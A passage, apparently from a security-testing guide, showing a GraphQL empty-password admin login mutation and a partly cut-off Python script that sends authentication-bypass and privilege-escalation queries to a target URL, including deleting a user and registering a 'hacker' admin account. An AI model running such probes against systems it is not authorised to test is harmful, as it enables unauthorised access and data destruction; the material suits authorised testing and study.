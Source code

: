        # Test for logic flaws in authentication
       mutation {
         login(username: "admin", password: "") {
           token
         }
       }
       ```
       - Python script for authentication testing:
       ```python
       import requests
       
       def test_auth_bypass(url):
           headers = {"Content-Type": "application/json"}
           
           # List of sensitive queries to test
           sensitive_queries = [
               # Admin operations
               {"name": "List all users", "query": "{ users { id username email isAdmin } }"},
               {"name": "Get admin user", "query": "{ user(role: \"admin\") { id username email } }"},
               {"name": "Delete user", "query": "mutation { deleteUser(id: \"2\") { success } }"},
               
               # Authentication tests
               {"name": "Empty password", "query": "mutation { login(username: \"admin\", password: \"\") { token success } }"},
               {"name": "SQL wildcard password", "query": "mutation { login(username: \"admin\", password: \"%\") { token success } }"},
               
               # Logic flaws
               {"name": "Register admin", "query": "mutation { register(username: \"hacker\", password: \"password\", role: \"admin\") { success user { username role } } }"}
           ]
           
           for test in sensitive_queries:
               print(f"[*] Testing: {test['name']}")
               response = requests.post(url, headers=headers, json={"query": test["query"]})
               
               print(f"[*] Status code: {response.status_code}")
               if response.status_code == 200:
                   result = response.json()
                   if "errors" not in result or not result["errors"]:
                       print("[+] No errors - potential vulnerability!")
                       print(f"[+] Response: {result}")
                   elif "data" in result and result["data"] and not all(v is None for v in result["data"].values()):
                       print("[+] Partial data returned - potential vulnerability!")
                       print(f"[+] Response: {result}")
               